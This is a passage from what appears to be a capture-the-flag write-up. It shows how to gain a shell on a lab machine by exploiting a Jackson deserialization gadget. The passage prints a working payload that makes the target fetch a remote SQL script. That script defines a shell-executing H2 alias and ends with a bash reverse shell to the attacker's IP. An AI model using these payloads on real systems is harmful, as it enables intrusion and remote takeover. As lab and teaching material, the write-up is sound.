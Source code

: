 ## Gaining Access

A google search for "jackson exploit" finds the following article, which details how to exploit this vulnerability:

{% embed url="https://blog.doyensec.com/2019/07/22/jackson-gadgets.html" %}

Reading through the article, the author gives us the following payload:

> \["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]

We need to modify it with out attacker IP and start a web server.&#x20;

First, start a webserver. Next, paste the updated payload into the text box with the "Validate" option selected and click "Process".

> \["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.3:8000/inject.sql'"}]

The web server gets a hit:

```
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.214 - - [24/Nov/2021 10:41:16] code 404, message File not found
10.10.10.214 - - [24/Nov/2021 10:41:16] "GET /inject.sql HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.

```

Let's create the inject.sql file and copy the following code into it as per the article:

> CREATE ALIAS SHELLEXEC AS \$$ String shellexec(String cmd) throws java.io.IOException { String\[] command = {"bash", "-c", cmd}; java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A"); return s.hasNext() ? s.next() : ""; }
>
> \$$;
>
> CALL SHELLEXEC('id > exploited.txt')

We'll need to modify the command we want to execute, as shown below:

```
└─$ cat inject.sql                                                                   
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.3/8585 0>&1')
                                                                               
```

Next, start the web server again and start a netcat listener, then paste the following command into the webapp with the "Validate" option selected and click "Process". In our listener, we get a shell as user "pericles", and we can grab the user flag.
